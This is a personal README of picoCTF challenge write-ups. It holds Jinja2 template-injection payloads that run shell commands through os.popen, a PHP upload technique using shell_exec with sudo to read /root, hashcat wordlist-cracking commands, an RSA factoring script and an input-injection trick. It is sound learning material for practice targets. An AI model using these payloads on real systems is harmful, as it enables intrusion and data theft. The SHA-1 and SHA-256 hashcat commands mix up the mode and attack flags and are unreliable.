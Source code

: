 # My picoCTF exercises

## [My picoCTF profile](https://play.picoctf.org/users/RedZunder)
- [Web exploitation](#web-exploitation)
- [Cryptography](#cryptography)
- [Reverse engineering](#reverse-engineering)


# Web Exploitation
<details open>
  <summary>SSTI1</summary>
  
  Entering the target website, we find an input field which 'announces' the user input. As inferred from the title of this CTF, we are looking to Server Side Template Injection.
  Using this workflow from [Cobalt](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti):
  ![image](https://github.com/user-attachments/assets/64991461-7402-4241-959a-9405862694a3)

  `$(7*7)` simply returns that literal string. Writing `{{7*7}}`, however, returns `49`. Sending `{{7*'7'}}` gives back `7777777`, suggesting the server might be running **Jinja2**.
  Now we can run commands like this one: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to see the files in the directory. Doing this we find a `flag` file.
  Naturally, we try to read this file: `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}` which returns the flag successfully.  
</details>

<details open>
<summary>n0s4n1ty 1</summary>

When entering the machine, we are presented a page where the user can upload a profile picture. First we will try to exploit this by checking if the input is sanitized. Trying to upload some `test.txt` file, and navigating to `/uploads/test.txt` as indicated by the upload page, we see the input is indeed not sanitized, since we are able to upload _any_ type of file. Next, we start trying differet commands in a `php` file:
```php
<?php

echo getcwd();

?>
```
which successfully returns the path `/var/www/html/uploads` . Knowing the structure, we try `ls /` and see where the `root` folder is. Now we can test if we may be able to `sudo` commands. Adding `sudo -l` we obtain:
```
...
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
Meaningg we can `sudo` whatever we want. So, we attempt `echo shell_exec('sudo ls /root')` and find `flag.txt` in that folder. 

Finally, adding the line `echo shell_exec('sudo cat /root/flag.txt')` gives us the flag.
</details>















# Cryptography

<details open>
<summary>Hashcrack</summary>
  
When we use _netcat_ to get the server, we are given a hash. Checking its length, we see it's 32 characters, or 128 bits, typical of MD5. 

Using ```hashcat -m 0 -a 0 <hash> /usr/share/wordlists/rockyou.txt``` we crack the password pretty quick.
The next hash is 40 char long, or 160 bits. Trying first with SHA-1, ```hashcat -m 0 -a 100 <hash> /usr/share/wordlists/rockyou.txt``` we again obtain the password. 

One last time, the hash is of length 64, or 256 bits. Supposing it's SHA-256 and running the same command with ```-a 1400```, we obtain the flag.

</details>

<details open>
<summary>Even RSA can be broken</summary>
  
First we use _netcat_ to get the encrypted flag, 'N' and 'e'. Looking at the source code provided, we see how the RSA keys are calculated.
```python
def gen_key(k):
    """
    Generates RSA key with k bits
    """
    p,q = get_primes(k//2)
    N = p*q
    d = inverse(e, (p-1)*(q-1))

    return ((N,e), d)
```
From the library `Crypto.Util.number` we can make use of `inverse` to reverse this encryption.
```python
#We obtain the prime factors of N
(p,q)=factorint(N)

#We calculate phi, needed for the next step
phi=(p-1)*(q-1)

#We get the inverse modulo, from the algorithm:  (d*e) % phi = 1
d=inverse(e,phi)

#Finally obtain the flag -> From the source code:  pow(bytes_to_long(flag.encode(utf-8)),e,N) so we reverse it
flag=long_to_bytes(pow(cypher,d,N)).decode()
```
  
</details>





# Reverse Engineering
<details open>
<summary>Flag Hunters</summary>
  
We use _netcat_ to communicate with the server and download the Python source code. Checking the code, we observe:

```python
elif re.match(r"CROWD.*", line):
    crowd = input('Crowd: ')
    song_lines[lip] = 'Crowd: ' + crowd
```
Which allows the user to enter anything, including commands.
We can also find:

```python
elif re.match(r"RETURN [0-9]+", line):
    lip = int(line.split()[1])
```
Which returns to the beginning of one of the paragraphs from 0 to 9. The flag is stored in paragraph 0, which is not shown.
We can then inject the code ```blablabla; RETURN 0``` in order to trigger the RETURN case, and thus obtain the flag in plaintext.


</details>
